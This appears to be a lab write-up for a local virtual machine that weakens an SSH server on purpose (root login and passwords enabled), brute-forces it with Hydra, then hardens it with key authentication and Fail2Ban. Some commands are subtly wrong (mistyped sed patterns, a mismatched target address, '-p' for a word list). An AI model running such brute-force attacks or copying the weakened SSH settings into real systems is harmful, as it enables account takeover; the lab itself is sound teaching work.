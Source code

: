 # POC-TASK--2
✅ SETUP:

step 1: Enable ssh 
        
  # Update package list and install OpenSSH server
        ┌──(monish㉿vbox)-[~]
        └─$ sudo apt update && sudo apt install openssh-server -y

  # Enable ssh to start on boot
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl enable ssh

  # Verify ssh is running
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl status ssh

step 2: Allow Root login & Password Authentication
  
  # Allow root login
        ┌──(monish㉿vbox)-[~]
        └─$ sudo sed -i 's/#permitRootLogin prohibit-password/permitRootLogin yes/' /etc/ssh/sshd_config

  # Enable password-based authentication
        ┌──(monish㉿vbox)-[~]
        └─$ sudo sed -i 's/passwordaAuthentication no/passwordAuthentication yes/' /etc/ssh/sshd_config

  # Verify ssh is listening on port 
        ┌──(monish㉿vbox)-[~]
        └─$ ss -tlnp | grep ssh
        
✅ EXPLOIT: BRUTE-FORCE ATTACK:

step 3: perform a brute-force attack on ssh

  # Run Hydra brute-force attack on ssh
        ┌──(monish㉿vbox)-[~]
        └─$ hydra -l root -p passwords.txt ssh://10.0.2.15 -t 4

  Hydra (https://github.com/van-thc/thc-hydra) starting at 2025-03-17 20:40:6
  [DATA] max 4 tasks per 1 server, overall 4 tasks, 5 login tries (l:1/p:5), ~2 tries per task
  [DATA] attacking ssh://10.0.2.15/
  [22][ssh] host: 178.0.0.9   login: root   password: @@@@
  1 of 1 target successfully completed, 1 valid password found
  Hydra (https://github.com/van-thc/thc-hydra) finished at 2025-03-17 20:40:9

✅ MITIGATION:

 step 4: ssh hardening & mitigation

   # Disable root login for ssh
        ┌──(monish㉿vbox)-[~]
        └─$ sudo sed -i 's/PermitRootLogin yes/PermitRootLogin no/' /etc/ssh/sshd_config

   # Enable key-based authentication
        ┌──(monish㉿vbox)-[~]
        └─$ mkdir -p ~/.ssh && chmod 700 ~/.ssh

   # Generate ssh key pair
        ┌──(monish㉿vbox)-[~]
        └─$ ssh-keygen -t rsa -b 4096

   Generating public/private rsa key pair.
   Enter file in which to save the key (/home/monish/.ssh/id_rsa): 
   Enter passphrase for "/home/monish/.ssh/id_rsa" (empty for no passphrase): 
   Enter same passphrase again: 
   Your identification has been saved in /home/monish/.ssh/id_rs
   Your public key has been saved in /home/monish/.ssh/id_rsa.pub
   The key fingerprint is:
   SHA256:*********************************** 
   The key's randomart image is:
   +---[RSA 4096]----+
   |  .=o+*+=B*= .   |
   |  ..O=.+*B=.o    |
   |   =.oo .E=  .   |
   |    .  ..o. . .  |
   |        S  . + . |
   |            = ...|
   |           o oo o|
   |            . .+ |
   |             ..  |
   +----[SHA256]-----+

   # Disable password authentication 
        ┌──(monish㉿vbox)-[~]
        └─$ sudo sed -i 's/PasswordAuthentication yes/PasswordAuthentication no/' /etc/ssh/sshd_config

   # Reset ssh to apply changes
        ┌──(monish㉿vbox)-[~]
        └─$  sudo systemctl restart ssh

step 5: Prevent Brute-force Attacks with Fail2Ban

   # Install Fail2Ban
        ┌──(monish㉿vbox)-[~]
        └─$ sudo apt install -y fail2ban

   # Enable and start Fail2Ban
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl enable fail2ban
        sudo systemctl start fail2ban

   # Configure Fail2Ban for ssh protection
        ┌──(monish㉿vbox)-[~]
        └─$ sudo nano /etc/fail2ban/jail.local

   # Restart Fail2Ban to apply settings
        ┌──(monish㉿vbox)-[~]
        └─$ sudo systemctl restart fail2ban
   
   # Check Fail2Ban status for SSH
         ┌──(monish㉿vbox)-[~]
         └─$ sudo fail2ban-client status sshd

   # Login in Root
          ┌──(monish㉿vbox)-[~]
          └─$ ssh root@178.0.0.9
